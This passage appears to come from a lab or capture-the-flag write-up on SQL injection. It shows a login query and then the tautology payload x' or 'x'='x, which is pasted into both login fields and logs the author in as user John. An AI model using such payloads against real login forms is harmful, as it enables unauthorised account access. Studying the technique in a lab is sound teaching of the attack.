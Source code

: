 
- SQL uses the below query to check the user/password in database. We will mess with the SQL query and try to break it.

```sql
Select * from users where usewrname='something_user' and password='something_password';

#Manipulated_Query
Select * from users where usewrname='x' or 'x'='x' and password='x' or 'x'='x';
```

- Let’s use the SQL payload to test it. Paste the below query in both username and password.

`x' or 'x'='x`

![alt text](data/image-63.png)

- In result we are logged in as user John.
